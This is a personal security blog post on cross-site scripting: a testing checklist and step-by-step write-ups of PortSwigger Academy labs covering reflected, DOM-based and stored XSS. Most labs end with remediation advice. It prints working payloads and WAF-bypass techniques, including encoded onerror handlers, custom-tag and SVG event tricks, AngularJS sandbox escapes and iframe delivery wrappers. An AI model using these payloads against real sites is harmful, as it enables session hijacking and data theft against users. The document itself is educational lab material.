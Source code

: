 ```yaml
---
layout: post
title: XSS (Cross site scripting)
subtitle: Victim visit malicious URL/site to trigger the payload made of JavaScript. Causing their session to be controlled or data to be stolen
date: 2025-09-15 19:15
author: Ren Sie
comments: true
category: script-input
thumbnail-img: /assets/img/githubpost/xxs_thumb.png
---
```


Cross-site scripting (XSS) is a web security flaw where attackers inject malicious scripts into trusted websites, which then execute in the browsers of unsuspecting users. This exploitation allows attackers to steal sensitive data, hijack user sessions, or manipulate website content by taking advantage of web applications that do not properly validate or sanitize user input.


{: .box-note}
**Note:** 💡 During the testing, use `print()` `prompt("text")` instead of `alert()` since `alert()` is commonly detected and filtered. <br> When testing for XXS, test for html injection first because it’s more likely to work
E.g., \<h1\>test\</h1\>

## Checklist
<details markdown="1">
  <summary>Click me to expand checklist</summary>  

1. **Is input reflected in the response?**

2. **Can we inject HTML?**
   - E.g., `https[://]victim[.]com/search?user=<img src=x onerror=prompt("XSS")>`
    
3. **Any weaknesses in the Content Security Policy (CSP)?**
   - Use of unsafe directives which allow execution of inline scripts or eval() functions, bypassing CSP protections. <br> E.g.,`Content-Security-Policy: script-src 'self' 'unsafe-inline' 'unsafe-eval';`
   - Allowing broad sources or wildcards in directives (e.g., script-src), which permits potentially untrusted external scripts to run. <br> E.g., `Content-Security-Policy: script-src *;`
   - Inclusion of compromised or vulnerable third-party domains in trusted sources, such as JSONP endpoints that can be exploited to inject malicious scripts. <br> E.g., `https[://]third-party_domain[.]com/jsonp?callback=prompt("xss is available!")`
   - Omitting strict directives for resources like object-src or failing to restrict nonces and hashes properly which can allow script injection.
   - Weak or predictable nonces (e.g., 'nonce-12345') that attackers can guess or reproduce to bypass CSP restrictions.
 
4. **Can we use events (e.g. onload, onerror)?**
   - `<body onload="prompt('XSS via onload!')"> Welcome to the website! </body>`
   - `<a href="https[://]trusted[.]com/search?user=<img src=x onerror=prompt("XXS Available")>"> Click me! </a>`

5. **Are there any filtered or escaped characters?**
   - E.g., `<`, `>`, `"`, `'`, `javascript:`, `alert()`
   - Refer to [XSS Filter Evasion Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html)

6. **Is input stored and then later rendered?**

7. **Can we inject into non-changing values (e.g. usernames, comments, etc.)?**
   - E.g., web application allows user input and stores them without proper sanitization.

8. **Any input collected from a third party (e.g. account information)?**
   - Third-party inputs refer to any data or content that comes from an external source (via third-party api) or from other users.

9. Is the version of the framework or dependency vulnerable?
   - [OWASP Dependency-Check](https://github.com/dependency-check/DependencyCheck)
   - [OWASP Dependency-Check Installation and Scanning First project](https://www.youtube.com/watch?v=hWiI700y3J0)

</details>

## 1.Reflected XSS
Inject payload into the HTTP request. And once the web server receive the request, it will response with the payload to sender’s browser. It relies on URL to make user fall for the attack.

### Labs (Reflected XSS)
Just for demostration, I completed some labs on [PortSwigger Academy](https://portswigger.net/web-security/all-labs#cross-site-scripting) to show how this vulnerability can lead to:

<details markdown="1">
  <summary>Click me to expand the labs</summary>  

_**1. Reflected XSS into attribute with angle brackets HTML-encoded**_
The application contains a reflected XSS vulnerability in the search blog feature, where angle brackets are HTML-encoded. I inject an attribute via XSS that triggers an alert function.
<details markdown="1">
  <summary>Click me to expand the process</summary>
  
1. Enter random input (e.g., test123) in the user input (URL query)
  ~~~
  URL: https[://]web-security-academy[.]net/?search=test123
  ~~~
  
2. Utilize search function in inspection tab, and search for input (e.g., test123)
  ~~~
  Result: <input type="text" placeholder="Search the blog..." name="search" value="test123">
  ~~~
  
3. After learning that our input is within a double-quoted attribute, we can try to bypass the double-quoted attributes by breaking out of the attribute value with the injection of double quotes or equivalent encodings, and then adding the HTML events that triggers the payload.
  ~~~
  URL: https[://]web-security-academy[.]net/?search=test123" onmouseover="alert(test)
  Result: <input type="text" placeholder="Search the blog..." name="search" value="test123" onmouseover="alert(test)">
  ~~~

  {: .box-note}
  **Note:** The `value` attribute is closed early by the injected quote, and `onmouseover="alert(1)` is interpreted as a new `onmouseover` attribute on the \<input\> tag.

4. Once I hover the cursor over the search bar, it triggers the alert. I identify the XSS vulnerability.
</details>
-

_**2. Reflected XSS into a JavaScript string with angle brackets HTML encoded**_
In this instance, the application is vulnerable to reflected XSS in the search query tracking functionality, where angle brackets are encoded. The reflection occurs inside a JavaScript string. I break out of the string and triggers the `prompt()` function, to demonstrate the vulnerability.
<details markdown="1">
  <summary>Click me to expand the process</summary>
  
1. I enter random input (e.g., test) in the user input (search bar)
  
2. Utilize search function in inspection tab, and search for input (e.g., test). I find that the input is directly past into the function.
  ```javascript
    var searchTerms = 'test';
      document.write('<img src="/resources/images/tracker.gif?searchTerms='+encodeURIComponent(searchTerms)+'">');
  ```
  
3. Now I learn that my input is inside the single quote, I try breaking out the single quote with:
  ~~~
  Input: '-prompt("TestXSS")-' # breaks the single quote
         or \\'-prompt("TestXSS")// # If single quotes are escaped
  ~~~
  
4. The message pops up after I send the query, which confirms that this instance is vulnerable to XSS. <br> Just to double-check, I pull out the script from the inspection tab.
  ```javascript
  var searchTerms = ''-prompt("TestXSS")-'';
  document.write('<img src="/resources/images/tracker.gif?searchTerms='+encodeURIComponent(searchTerms)+'">');
  ```
  
</details>
-

_**3. Reflected DOM XSS**_
In this instance, a script on the page processes reflected data (user input) with `eval()` without any sanitization and ultimately writes it to a dangerous sink.

<details markdown="1">
  <summary>Click me to expand the process</summary>

1. First, I find the script used in the web application under the Network tab on the Inspection page.
   - The `xhr.open` method sends a GET request (with user input retrieved from `path + window.location.search`) and fetches data from the server using `XMLHttpRequest`.
   - Then it parses the JSON response (`this.responseText`) with `eval()`.
   - Lastly, it dynamically create and display search results (`displaySearchResults`) in the HTML DOM.

   ```javascript
   var xhr = new XMLHttpRequest();
   xhr.onreadystatechange = function() {
      if (this.readyState == 4 && this.status == 200) {
          eval('var searchResultsObj = ' + this.responseText);
          displaySearchResults(searchResultsObj);
      }
   };
   xhr.open("GET", path + window.location.search);
   xhr.send();
   ```
   
2. I send a test request and intercept the response using Burp Proxy.

   ```json
   {"results":[],"searchTerm":"test"}
   ```

3. Because the script uses `eval()` to process the response, I can insert the `prompt()` function (see JSON Values in the [JSON Syntax](https://www.w3schools.com/js/js_json_syntax.asp))."
   Now that I know the JSON structure, I create an input to break out of the expected structure in Burp Repeater.

4. In the response to my first payload attempt `test\"-prompt()}//`, the double quote is escaped by the application, so I add an extra backslash (`\`) to bypass it.
   ~~~
   1-st_Request: ?search=test"-prompt()}//
   Response: {"results":[],"searchTerm":"test\"-prompt()}//"}
   -
   2-nd_Request: ?search=test\"-prompt()}//
   Response: {"results":[],"searchTerm":"test\\"-prompt()}//"}
   ~~~

   {: .box-note}
   **Note:** The [Arithmetic Operators](https://www.w3schools.com/programming/prog_operators_arithmetic.php#gsc.tab=0) (`-`) forces `prompt()` to be parsed and executed as part of an expression. And ensuring it is executed immediately, not just ignored.
   And the `//` comments out whatever is after it.

</details>
-

_**4. Reflected XSS into HTML context with most tags and attributes blocked**_
In this instance, the `/?search` parameter is being reflected into the page as HTML without proper contextual encoding or sanitization, and the WAF’s tag/attribute filtering is insufficient, so I bypass the filter and executes `prompt()`.

<details markdown="1">
  <summary>Click me to expand the process</summary>

1. After using general XSS testing payloads, I learn that the WAF is blocking some HTML tags to prevent common XSS.
   ~~~
   Payload: <img src="0" onerror="prompt()">
   Respond: "Tag is not allowed"
   ~~~

2. To find out which tag isn't blocked, I used Burp Intruder with all tag options as payload (retrieved from the [XSS cheat sheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)). The result tells me that `<body>` is not blocked by the WAF.
   ~~~
   Burp Intruder:
     GET /?search=<Payload Position> HTTP/2
   ~~~

3. After enclosing payloads within the `<body>` tag, I learn that the WAF is also blocking some attributes.
   ~~~
   Payload: <body onload="prompt()">
   Respond: "Attributes is not allowed"
   ~~~

4. Repeating step 2, but this time I copy the events from the XSS cheat sheet. I got some events that comes back with 200 OK. 
   ~~~
   Burp Intruder:
     GET /?search=<body%20<Payload Position>=prompt()>
   ~~~

5. To make the exploitation more realistic, after going through the unfiltered event attributes:
   - I used an `<iframe>` to embeds this vulnerable webpage (`src="https[://]vulnerable[.]com/`).
   - The query parameter `/?search` then load the URL-encoded payload `%22%3E%3Cbody+onresize=prompt()%3E`
   - [this.style.width](https://www.w3schools.com/jsref/prop_style_width.asp) to adjust the iframe’s size, which will trigger the `onresize` event and `prompt()`.
   ~~~
   <iframe src="https[://]vulnerable[.]com/?search=%22%3E%3Cbody+onresize=prompt()%3E" onload=this.style.height='88px'></iframe>
   ~~~

6. Because I bypass the WAF filter with non-filterd tag and attribution, the function `prompt()` will be executed once someone clicks on the link.

**Suggestion**: Remediate by [treating user input strictly as data](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html#xss-defense-philosophy) (encode/escape for the HTML context or render search terms as text nodes, never raw HTML), apply a server‑side allowlist sanitizer (or a vetted library such as [DOMPurify](https://www.npmjs.com/package/dompurify) when sanitization is required), enforce a strong [Content Security Policy](https://cheatsheetseries.owasp.org/cheatsheets/Content_Security_Policy_Cheat_Sheet.html) that disallows inline event handlers/scripts, and [harden WAF normalization/rules](https://docs.oracle.com/en-us/iaas/Content/WAF/Protections/protections_management.htm) to catch decoded event-attribute payloads.
</details>
-

_**5. Reflected XSS into HTML context with all tags blocked except custom ones**_
In this instance, I find that the WAF blocks standard tags but allows custom element names. Because browser will parse custom tags as valid elements (`<cust-foo>`) and allow attributes (`onfocus`), I bypass the WAF and execute a prompt with custom tag, and other components to simulate the exploit in a real‑world scenario.

<details markdown="1">
  <summary>Click me to expand the process</summary>

1. I started by testing the input form, and the response indicated that the tag was blocked.
   ~~~
   Request: GET /?search=<script>test</script>
   Response: "Tag is not allowed"
   ~~~

2. Then I tried using a custom tag (`<cust-foo>`); this time, I did not receive any error. This confirms that the WAF does not block [custom tag](https://matthewjamestaylor.com/custom-tags).
   ~~~
   Request: GET /?search=<cust-foo>test</cust-foo>
   Response: HTTP/2 200 OK
   ~~~

3. The browser treats custom tags (`<cust-foo>`) as valid HTML elements and parses their attributes and event handlers (`onmouseover`), which execute JavaScript when triggered by moving the cursor over a specific spot.
   ~~~
   Request: GET /?search=<cust-foo onmouseover='prompt("xss")'>Move your mouse here</cust-foo>
   Response: A pop-up "xss"
   ~~~

4. To make the exploitation more realistic, I used custom tags with some components to create an .html file. As soon as a user opens it, they woulbe be redirected to the designated page and the prompt was executed: 
   - `window.location.assign()`: Redirect the user's browser to a new URL while keeping the current page in the session history (Back button available).
   - `id`: Gives the element a unique identifier in the DOM (e.g., a1).
   - `tabindex`: Makes the element focusable, which can be used with `onfocus` events.
   - `onfocus`: The JavaScript will be triggered when the element (`id`) receives focus.
   - `#a1`: Call out and focus on the element `a1`.

   ```javascript
    <script>
    window.location.assign("https[://]vulnerable[.]com/?search=<cust-tag id=a1 tabindex=1 onfocus='prompt("I am focusable")'>#a1")
    </script>
   ```

**Suggestion**: Use a proven HTML sanitizer (e.g. [DOMPurify](https://www.npmjs.com/package/dompurify)) on output that must contain HTML (server-side). Configure [allowlists](https://help.ivanti.com/ht/help/en_US/ISM/2025/admin-user/Content/Configure/SetUpWizard/Configure%20Allowed%20Tags%20and%20Attribute.htm), only permit required tags and attributes, and explicitly exclude all event handler attributes (e.g., on*). Apply the appropriate [encoding](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html#output-encoding) based on where the data will be used (body, attribute, JavaScript string, URL, CSS), and do not rely on a single generic encoding for all contexts. Prefer [framework helpers](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html#framework-security) and templating engines that provide automatic, correct output escaping rather than hand‑rolling your own escaping logic. Remove unnecessary HTML rendering of user‑supplied content whenever possible. If a field is a search query or otherwise simple text, return it as plain text (properly escaped) instead of rendering it as HTML with tags.
</details>
-

_**6. Reflected XSS with some SVG markup allowed**_
In this instance, I discovered a reflected XSS vector that bypasses the WAF by using certain unfiltered tags and event. By inserting those, I was able to execute JavaScript, demonstrating a reflected XSS bypass through SVG + SMIL animation events.

<details markdown="1">
  <summary>Click me to expand the process</summary>

1. I started by testing the input form, and the response indicated that the tag was blocked.
   ~~~
   Request: GET /?search=<script>prompt()</script>
   Response: "Tag is not allowed"
   ~~~

2.  To find out which tag isn't blocked, I used Burp Intruder with all tag options as payload (retrieved from the [XSS cheat sheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)). The result tells me that `<animatetransform>`, `<image>`, `<svg>`, `<title>` are not blocked by the WAF.
   ~~~
   Burp Intruder:
     GET /?search=<Payload Position> HTTP/1.1
   ~~~

3. Next, to find out which event is not filtered. I repeated step 2 but copied the events from the [XSS cheat sheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet). I use `<image>` as example since I know it is not filtered, then I received only `onbegin` events that returned 200 OK.
   ~~~
   Burp Intruder:
     GET /?search=<image+src="x"+<Payload Position>=1> HTTP/1.1
   ~~~

4. After some [researches](https://developer.mozilla.org/en-US/docs/Web/API/SVGAnimationElement/beginEvent_event, "SVGAnimationElement: beginEvent event"), I learned that `<svg>` and `<animatetransform>` can be used with `onbegin`. To test it out, I inserted `prompt()`, and the application responded with a pop‑up window containing my text, which proves that I bypassed the WAF's filters and executed a test script.
   ~~~
   <svg><animatetransform onbegin='prompt("Is this vulnerable to XSS?")'>
   ~~~
   
**Suggestion**: Treat any HTML or SVG in user input as untrusted. Ensure [server‑side output encoding](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html#output-encoding) is applied. If you must allow HTML/SVG, sanitize server‑side with a library that understands and safely handles SVG (e.g., [DOMPurify](https://www.npmjs.com/package/dompurify)). Deploy a strict [Content Security Policy](https://developer.mozilla.org/en-US/docs/Web/HTTP/Guides/CSP) that avoids unsafe-inline and blocks inline script execution and data:/javascript: URLs (use script-src 'self' plus nonces/hashes if inline scripts are required).
</details>
-

_**7. Reflected XSS in canonical link tag**_
In this instance, I discovered that untrusted input from the URL query string is reflected into canonical link tag in the page source. By injecting [accesskey](https://www.w3schools.com/jsref/prop_html_accesskey.asp, "HTML DOM Element accessKey") attribute,  I was able to prove code execution in the page context after pressing the keystroke triggered JavaScript.

<details markdown="1">
  <summary>Click me to expand the process</summary>

1. I opened the Inspector and found the canonical link in the source code.
  ~~~
  <link rel="canonical" href="https://web-security-academy.net/">
  ~~~

2. I inserted a test string (`?test`) into the URL and saw my input rendered directly in the canonical link.
  ~~~
  <link rel="canonical" href="https[://]web-security-academy[.]net/?test">
  ~~~

3. I then added an `accesskey` attribute to the `<link>` tag, and when the designated key was pressed it triggered the `onclick` event. The results showed:
  - Spaces in my input were encoded (`%20`) in the URL, but they were rendered as extra encoded spaces (` %20`) in the source code.
  - A single quotes were encoded (`%27`) in the URL, but they rendered as double quotes in the source code.
  ~~~
  Request: /?test' accesskey='x' onclick='prompt(test)
  Response: <link rel="canonical" href="https[://]web-security-academy[.]net/?test" %20accesskey="x" %20onclick="prompt(test)">
  ~~~

4. To bypass this, I removed the spaces from my input. After pressing Ctrl+Alt+X, a popup displayed my message.
  ~~~
  Request: /?test'accesskey='x'onclick='prompt(&quot;XSS&nbsp;vulnerable?&nbsp;YES!&quot;)
  Response: <link rel="canonical" href="https[://]web-security-academy[.]net/?test" accesskey="x" onclick="prompt(&quot;XSS&nbsp;vulnerable?&nbsp;YES!&quot;)">
  ~~~

**Suggestion**: Don't reflect user input directly into HTML, ensure [server‑side output encoding](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html#output-encoding) is applied. [Sanitize & validate input](https://cheatsheetseries.owasp.org/cheatsheets/Input_Validation_Cheat_Sheet.html#implementing-input-validation), if input used as a URL, validate against an allow-list of permitted patterns. Use [DOM methods](https://cheatsheetseries.owasp.org/cheatsheets/DOM_based_XSS_Prevention_Cheat_Sheet.html#rule-6-populate-the-dom-using-safe-javascript-functions-or-properties) to create and manage elements, attributes, and text nodes safely. Add/strengthen [Content Security Policy](https://developer.mozilla.org/en-US/docs/Web/HTTP/Guides/CSP). Lastly, use [HTTP security headers](https://cheatsheetseries.owasp.org/cheatsheets/HTTP_Headers_Cheat_Sheet.html#security-headers).
</details>
-

_**8. Reflected XSS into a JavaScript string with single quote and backslash escaped**_
In this instance, I discover a XSS vulnerability in the search tracking code. The application inserts user input directly into a JavaScript single-quoted string and escapes single quotes with a backslash, but it does not prevent breaking out of the surrounding script context (angle bracket > not escaped). I terminate the `<script>` tag and injecting a new `<script>` block.

<details markdown="1">
  <summary>Click me to expand the process</summary>

1. I start by testing the input (`test_input`) to see where it is rendered in the source code, then I find my input is in a search function.

   ```javascript
   <script>
     var searchTerms = 'test_input';
     document.write('<img src="/resources/images/tracker.gif?searchTerms='+encodeURIComponent(searchTerms)+'">');
   </script>
   ```
   
2. To test whether I can break out of the single quote (`'`), I try entering a single quote, but it is escaped with a backslash (`'\`).

   ```javascript
   <script>
     var searchTerms = '\'test_input';
     document.write('<img src="/resources/images/tracker.gif?searchTerms='+encodeURIComponent(searchTerms)+'">');
   </script>
   ```
   
3. I try to escape the backslash (`\\'`), but it doesn’t work.

   ```javascript
   <script>
     var searchTerms = '\\\'test_input';
     document.write('<img src="/resources/images/tracker.gif?searchTerms='+encodeURIComponent(searchTerms)+'">');
   </script>
   ```
   
4. Then I discover that the angle bracket isn’t escaped, so I close the existing tag with `</script>` and insert a new one `<script>prompt();</script>`. A popup then displays my message.

   ```javascript
   <script>
     var searchTerms = '</script><script>prompt("Am I vulnerable to XSS");</script>
     ';document.write('
   ```
   
**Suggestion**: Validate and sanitize user input on client side to reject or clean inputs containing malicious characters or script tags. When inserting user input into JS strings, use [output encoding](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html#output-encoding) that safely escapes all special characters that could break the context, not just single quotes and backslashes. Don't place variables into [dangerous contexts](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html#dangerous-contexts) as even with output encoding. Implement [Content Security Policy](https://cheatsheetseries.owasp.org/cheatsheets/Content_Security_Policy_Cheat_Sheet.html#defense-against-xss) that limits the sources and inline script execution. 

</details>
-

</details>

## 2.Dom-Based XSS
Client-side has vulnerable JavaScript. It doesn’t involve with the server-side, completely rely on client’s browser to execute the payload.
One quick check is turn on the developer tool, input and execute a simple prompt or alert script, see if there’s any network interaction with the server.

{: .box-note}
**Note:** 🚨 Inspecting Network page in the developer tab while sending input. If there’s no external communication happens, it indicates it is Dom-Based XXS.

### Labs (Dom-Based XSS)
Just for demostration, I completed some labs on [PortSwigger Academy](https://portswigger.net/web-security/all-labs#cross-site-scripting) to show how this vulnerability can lead to:

<details markdown="1">
  <summary>Click me to expand the labs</summary>  

_**1. DOM-based XSS in document.write sink using source location.search**_
The target application use `document.write()` function to display content from `location.search`, which comes from the URL query string. Allows users to modify the URL, and to inject and execute arbitrary scripts in the page.
<details markdown="1">
  <summary>Click me to expand the process</summary>  
  
1. Enter random input (e.g., 123456) in the user input (URL query)
  ~~~
  https[://]web-security-academy.net/?search=123456
  ~~~
  
2. Right-click on the webpage and open the inspection tab
  
3. Press `Crtl+F` to open search function in inspection tab, and search for input (e.g., 123456)
  ~~~
  Result: <img src="/resources/images/tracker[.]gif?searchTerms=123456">
  ~~~
  
4. After knowing the syntax. We can add a closing angle bracket to close up the img tag, and add a new tag with the payload. I use HTML encoding to bypass the filter.
  ~~~
  URL: "><script src=x onerror="&#0000106&#0000097&#0000118&#0000097&#0000115&#0000099&#0000114&#0000105&#0000112&#0000116&#0000058&#0000097&#0000108&#0000101&#0000114&#0000116&#0000040&#0000039&#0000088&#0000083&#0000083&#0000039&#0000041"></script>
  Result: <img src="/resources/images/tracker[.]gif?searchTerms=">
          <script src="x" onerror="javascript:alert('XSS')"></script>
  ~~~

</details>
-

_**2. DOM XSS in innerHTML sink using source location.search**_
The application It assigns data from `location.search` to `innerHTML`, which updates the contents of a `<div>`. Since the URL can be controlled by the user, they can inject malicious HTML or scripts.
<details markdown="1">
  <summary>Click me to expand the process</summary>  
  
1. Enter random input (e.g., 123456) in the user input (URL query)
  ~~~
  https[://]web-security-academy.net/?search=123456
  ~~~
  
2. Right-click on the webpage and open the inspection tab
  
3. Press `Crtl+F` to open search function in inspection tab, and search for input (e.g., 123456)
  ~~~
  Result: <span id="searchMessage">123456</span>
  ~~~
  
4. After knowing the syntax. I can add a closing tag to close up `<span>`, and add a new `<img>` tag with the payload. I use HTML encoding to bypass the filter.
  ~~~
  URL: https[://]web-security-academy[.]net/?search=</span><img src=x onerror="&#0000106&#0000097&#0000118&#0000097&#0000115&#0000099&#0000114&#0000105&#0000112&#0000116&#0000058&#0000097&#0000108&#0000101&#0000114&#0000116&#0000040&#0000039&#0000088&#0000083&#0000083&#0000039&#0000041">
  Result: <span id="searchMessage"><img src="x" onerror="javascript:alert('XSS')"></span> <span>'</span> == $0
  ~~~
  
</details>
-
  
_**3. DOM XSS in jQuery anchor href attribute sink using location.search source**_
In this instance, jQuery’s `$` selector is used to find a link and set its `href` using data from `location.search`, which comes from the URL query string.
<details markdown="1">
  <summary>Click me to expand the process</summary>
  
1. Right-click on the webpage and open the inspection tab. I search for `location.search`, which led me to this script:
  ```javascript
  $(function() {  
    $('#backLink').attr("href", (new URLSearchParams(window.location.search)).get('returnPath'));  
    });
  ```
  
2. I also notice that the URL contains the `returnPath` query parameter, which aligns with the script. Which uses this query parameter to set the href attribute of the backlink.
  ~~~
  URL: https[://]web-security-academy[.]net/feedback?returnPath=/
  ~~~
  
3. Insert the payload into the `returnPath` query parameter.
  ~~~
  URL: https[://]web-security-academy[.]net/feedback?returnPath=javascript:prompt(document.cookie)
  Result: <a id="backLink" href="javascript:prompt(document.cookie)">Back</a>
  ~~~
  
</details>
-

_**6. DOM XSS in jQuery selector sink using a hashchange event**_
There is a DOM-based XSS vulnerability on the home page, where jQuery’s `$()` selector is used to auto-scroll to a post, with the title passed through `location.hash`.
<details markdown="1">
  <summary>Click me to expand the process</summary>
  
1. Firstly, I search for `$()` in the inspection tab, and I find the syntax for this function. Which listens for hash changes in the URL (`/#`) and scrolls the corresponding blog post into view based on the hash value.
  ```javascript
  $(window).on('hashchange', function(){
    var post = $('section.blog-list h2:contains(' + decodeURIComponent(window.location.hash.slice(1)) + ')');
    if (post) post.get(0).scrollIntoView();
    });
  ```
  
2. I append a simple XSS test payload with a hashtag to the URL, and the print function is triggered. The XSS vulnerability in this application is confirmed.
  ~~~
  URL: https[://]web-security-academy[.]net/#<img src=x onerror=print()>
  ~~~

3. In the case that I want to deliver this payload to others, I utilize `iframe`, `onload`, `img src`, and `onerror` to trigger the payload once they open the page.
  ~~~
  URL: <iframe src="https[://]web-security-academy[.]net/#" onload="this.src+='<img src=x onerror=print()>'"></iframe>
  ~~~

  {: .box-note}
  **Note:** The `onload` attribute of the `iframe` runs JavaScript to append the print payload directly into the URL fragment after the page loads. The vulnerable page inside the iframe then reads this fragment (<img src=x onerror=print()>) and executes the injected payload.
  
</details>
-

_**7. DOM XSS in document.write sink using source location.search inside a select element**_
This instance contains a DOM-based XSS vulnerability in the stock checker functionality. It leverages the `document.write` function to output data to the page, using data from `location.search` that user can control through the website URL. The input data is between the `<option>` tag, I break out of it and calls the `prompt` function.
<details markdown="1">
  <summary>Click me to expand the process</summary>
  
1. Firstly, I discover the function in the inspection tab (`right-click on the webpage > inspect`).  
   And I learn that the script builds a `<select name="storeId">` dropdown by reading a `storeId` query parameter from the URL and, if present, adding it as the selected `<option>` before adding the three hard-coded stores (skipping any duplicate).  
   It uses `document.write` with the raw URL value, so unescaped input could be reflected into the page; creating elements and setting textContent/value.
   
   ```javascript
   var stores = ["London", "Paris", "Milan"];
   var store = (new URLSearchParams(window.location.search)).get('storeId');
   document.write('<select name="storeId">');
   if(store) {
       document.write('<option selected>' + store + '</option>');
   }

   for(var i = 0; i < stores.length; i++) {
       if(stores[i] === store) {
           continue;
       }
       document.write('<option>' + stores[i] + '</option>');
   }

   document.write('</select>');
   ```

2. After discovering that the function takes user input in the `storeId` parameter, I add the `storeId` parameter after the original `productId` parameter with a `&`. I then send a test input (test) to see the application's response. As expected, I am able to add a new selected `<option>`.
   ~~~
   URL: https[://]web-security-academy[.]net/product?productId=2&storeId=test
   Result:
   <select name="storeId">
     <option selected>test</option> # I create this option by inserting the parameter and value in the URL.
     <option>London</option>
     <option>Paris</option>
     <option>Milan</option>
   ~~~
  
3. Remember this syntax `document.write('<option>' + stores[i] + '</option>');` from the function. What I can do is close the first `<option>` tag, inject new HTML tags or event attributes, and then open another `<option>` tag. I try injecting a couple of new HTML tags, and both work. <br>Now, I can confirm that the stock search query function on this web application is vulnerable to XSS.
   ~~~
   Payload-1: storeId=test</option><iframe src="javascript:prompt('work?');"></iframe><option>
   Payload-2: storeId=test</option><script>prompt('work?')</script><option>
   ~~~

</details>
-

_**8. DOM XSS in AngularJS expression with angle brackets and double quotes HTML-encoded**_
This instance contains a DOM-based XSS vulnerability in an `AngularJS` expression within the search functionality. I inject a method (e.g. `$on`/`$eval`) that is available in the current scope to bypass AngularJS's security filter, append the `.constructor` property to create a `Function` object (`function(user_input)`), and then call it with `()` to execute the created function.

{: .box-note}
**Note:** Refer to [AngularJS DOM XSS Attack](https://www.youtube.com/watch?v=QpQp2JLn6JA) for more details walkthrough

<details markdown="1">
  <summary>Click me to expand the process</summary>

1. After did some researches ([AngularJS - Escaping the Expression Sandbox](https://spring.io/blog/2016/01/28/angularjs-escaping-the-expression-sandbox-for-xss), [Function() constructor](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Function/Function), [Object.prototype.constructor](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Object/constructor), ) I come up with a couple of different payloads to pybass the security filter.
  ~~~
  Payload-1: \{\{$eval.constructor(prompt('AngularJS_xss'))()\}\}
  Payload-2: \{\{$on.constructor('prompt("AngularJS_xss")')()\}\}
  ~~~
  
</details>
-


</details>

## 3.Store-Based XSS
Payload is stored in the database, and victim’s browser will retrieve it once it visit the page. For instance:  
1. In the attacker’s browser leave html injection comment: \<h1\>test\</h1\>.
2. Visit the same page from victim’s browser

![store_xxs.png](/assets/img/githubpost/xxs_1.png)

### Labs (Store-Based XSS)
Just for demostration, I completed some labs on [PortSwigger Academy](https://portswigger.net/web-security/all-labs#cross-site-scripting) to show how this vulnerability can lead to:

<details markdown="1">
  <summary>Click me to expand the labs</summary>  

_**1. Stored XSS into anchor href attribute with double quotes HTML-encoded**_
This instance contains a stored XSS vulnerability in the comment section. I submit a comment that triggers an alert when the author’s name is clicked.
<details markdown="1">
  <summary>Click me to expand the process</summary>
  
1. In the comment section, there are four fields (Comment, Name, Email, Website). After filling out all the fields and submitting my comment, I notice that the Name section contains an external link, which is the website I enter while filling out the form.

2. I use the search function in the inspection tab to look for the website I enter. And I find:
   ~~~
   Result: <a id="author" href="Website.com">Name</a>
   ~~~

3. Now, I determine that the href attribute accepts user input, so I enter a simple payload into the Website field. It is confirmed that the alert will be triggered when I click on the Name.
   ~~~
   Website: javascript:alert('Zebra!')
   Result: <a id="author" href="javascript:alert('Zebra!')">World Smartest Zebra</a>
   ~~~
   
</details>
-

_**2. Stored DOM XSS**_
In this instance, the comment rendering is vulnerable to stored DOM‑based XSS because `escape()` only replaces the first `<`, `>` so I bypass it which leaves later tags unescaped, allowing arbitrary script execution when the page inserts comments into the DOM.

<details markdown="1">
  <summary>Click me to expand the process</summary>

1. Firstly, I look into the script used in the web application under the Network tab on the Inspection page. And I find there is an escape function using [replace()](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/String/replace)

   ```javascript
    function escapeHTML(html) {
        return html.replace('<', '&lt;').replace('>', '&gt;');
    }
   ```

   {: .box-note}
   **Note:** A string pattern will only be replaced once. To perform a global search and replace, use a regex with the g flag, or use replaceAll() instead.

2. Now that I know only the first set of angle brackets is escaped and anything after that isn't, I craft my payload as:
   ~~~
   Payload: <><img src="x" onerror="prompt('I am escaped!')">
   Rendered:
   <p>
     &lt;&gt;
     <img src="x" onerror="prompt('I am escaped!')">
   </p>
   ~~~

3. A prompt pops up with a message after I submit (store) the payload in the comment section, which indicates the filter mechanism (`replace()` function) was bypassed and the application is still vulnerable to XSS."

</details>

